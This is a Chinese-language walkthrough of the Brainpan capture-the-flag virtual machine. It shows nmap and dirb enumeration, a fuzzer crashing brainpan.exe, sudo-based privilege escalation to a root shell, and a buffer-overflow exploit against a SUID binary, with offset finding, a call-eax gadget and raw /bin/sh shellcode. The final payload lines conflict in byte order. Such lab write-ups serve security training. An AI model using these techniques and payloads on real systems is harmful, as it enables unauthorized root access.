wifi桥接的网卡！快速枚举：nmap -iL 1.txt -p10000

1、nmap -sP 192.168.2.0/24
Nmap scan report for brainpan.lan (192.168.2.121)

2、全端口扫描
nmap -sC -sV -A -T5 -p- 192.168.2.121
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)   ---这是python2支撑的http

3、探测端口

1）nc 192.168.2.121 9999
拒绝访问！

2）访问：http://192.168.2.121:10000/
这里主要有关安全编码的Veracode信息图，发现了OWASP在Web应用程序中排名前10位的漏洞等等！


dirb http://192.168.2.121:10000/
http://192.168.2.121:10000/bin   ---发现存在brainpan.exe


------------------------------------------------------------
缓冲区溢出方法1：
http://192.168.4.96:10000/

python brainfuzzer.py 192.168.4.96 9999
[+] Attempting to crash brainpan.exe at 700 bytes
[+] Connection failed. Make sure IP/port are correct, or check debugger for brainpan.exe crash.
brainpan.exe崩溃，存在缓冲区溢出！

缓冲区溢出方法2：
查看文章：widnows缓冲区溢出


--------------------------------
提权方法1：
sudo -l
User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util


sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]

可以执行command！
sudo /home/anansi/bin/anansi_util manual cp
!/bin/bash
id   ---获得root权限
--------------------------------
find / -perm -4000 2>/dev/null
/usr/local/bin/validate   ---存在溢出

base64 /usr/local/bin/validate
cat base64.txt | base64 -d > validate
gdb -q ./validate
run
pattern_create 200
pset arg '200值'

39644138
pattern_offset.rb -q 39644138
116   ---偏移量

objdump -d validate | grep -i call | grep -i eax
 8048468:    ff 14 85 14 9f 04 08     call   *0x8049f14(,%eax,4)
 80484af:    ff d0                    call   *%eax
 804862b:    ff d0                    call   *%eax
80484af
\xaf\x84\x04\x08

28 BYTES SHELLCODE + (116-28)*JUNK + CALL EAX：811

./validate 'python -c 'print "\xaf\x84\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + ("\x41" * 88) ''

./validate 'python -c 'print "shellcode" + ("\x41" * 88) + "\xaf\x84\x04\x08"''





























































